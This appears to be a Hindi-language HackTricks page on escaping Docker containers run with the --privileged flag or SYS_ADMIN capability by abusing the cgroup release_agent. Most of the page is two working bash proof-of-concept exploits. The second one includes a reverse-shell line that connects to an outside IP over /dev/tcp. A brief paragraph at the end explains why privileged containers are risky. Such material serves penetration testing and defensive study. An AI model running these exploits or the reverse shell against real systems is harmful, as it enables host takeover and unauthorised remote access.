 <details><summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>


# `--privileged` फ्लैग

{% code title="Initial PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o;
echo $t/c >$d/release_agent;
echo "#!/bin/sh $1 >$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
{% endcode %}

{% code title="दूसरा PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```
{% endcode %}

`--privileged` झंडा महत्वपूर्ण सुरक्षा चिंताओं को पेश करता है, और यह शोषण इसे सक्षम करके एक docker कंटेनर लॉन्च करने पर निर्भर करता है। इस झंडे का उपयोग करते समय, कंटेनर्स को सभी उपकरणों तक पूर्ण पहुँच होती है और seccomp, AppArmor, और Linux क्षमताओं से प्रतिबंध नहीं होते हैं।

